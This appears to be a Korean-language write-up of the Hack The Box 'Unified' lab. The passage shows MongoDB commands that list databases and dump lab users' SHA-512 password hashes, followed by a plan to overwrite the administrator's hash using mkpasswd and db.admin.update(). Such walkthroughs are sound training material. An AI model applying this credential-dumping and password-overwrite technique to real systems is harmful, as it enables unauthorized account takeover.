 ``` bash
```

접속한 mongo를 통해 각 내용을 확인해보자. dbs에는 ace 항목만 유일하게 용량이 있는 것을 알 수 있다.
``` bash
show dbs
ace       0.002GB
ace_stat  0.000GB
admin     0.000GB
config    0.000GB
local     0.000GB

show users

show profile
db.system.profile is empty
Use db.setProfilingLevel(2) will enable profiling
Use db.system.profile.find() to show raw profile entries
```

mongodb에서는 db.xx.xx() 와 같은 형태로 다양한 기능을 사용할 수 있다. 우선 아래와 같이 db.admin.find() 명령을 통해 사용자 목록 조회가 가능하다. 아래와 같이 administrator에 대한 hash값이 존재한다. 다만 해당 값을 직접 크랙하기에는 거의 불가능에 가깝다.
``` bash
# db.admin.find()
{ "_id" : ObjectId("61ce278f46e0fb0012d47ee4"), "name" : "administrator", "email" : "administrator@unified.htb", "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.,
...
{ "_id" : ObjectId("61ce4a63fbce5e00116f424f"), "email" : "michael@unified.htb", "name" : "michael", "x_shadow" : "$6$spHwHYVF$mF/VQrMNGSau0IP7LjqQMfF5VjZBph6VUf4clW3SULqBjDNQwW.BlIqsafYbLWmKRhfWTiZLjhSP.D/M1h5yJ0", "requires_new_password" : false, "time_created" : NumberLong(1640909411), "last_site_name" : "default", "email_alert_enabled" : false, "email_alert_grouping_enabled" : false, "email_alert_grouping_delay" : 60, "push_alert_enabled" : false }{ "_id" : ObjectId("61ce4ce8fbce5e00116f4251"), "email" : "seamus@unified.htb", "name" : "Seamus", "x_shadow" : "$6$NT.hcX..$aFei35dMy7Ddn.O.UFybjrAaRR5UfzzChhIeCs0lp1mmXhVHol6feKv4hj8LaGe0dTiyvq1tmA.j9.kfDP.xC.", "requires_new_password" : true, "time_created" : NumberLong(1640910056), "last_site_name" : "default" }
...
```

## [0x03] change x_shadow
---
mongo에는 `db.admin.find()`와 마찬가지로 항목을 업데이트 하는 `db.admin.update()`가 존재한다. 직접 패스워드 crack을 할 수는 없으니, 임의의 값으로 update 시키고자 한다.

우선 해당 shadow 값을 만들기 위해 어떤 알고리즘을 사용했는지 보자. `$6$Ry6Vdbse$8e`는 `$알고리즘ID$salt$암호화된패스워드` 값을 각각 의미하며, 알고리즘ID가 6인 경우는 SHA512이다.

알고리즘 ID
- 1: MD5
- 2: BlowFish
- 5: SHA-256
- 6: SHA-512

각 알고리즘에 맞는 패스워드를 생성해주는 도구도 존재하기에 편하게 생성 가능하다. `mkpasswd`를 통해 'temp_password'에 대한 hash 값을 획득하였다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# mkpasswd -m sha-512 temp_password
$6$91MIYRtYntosD8IH$E993UyqhPsVRjCjT4K02XiTqh07BZXOx4Od8t16MLTq14c5hBZ4kHfy4tUrVBiu3vSRaci9f49p7AUPtEX0MW.
```
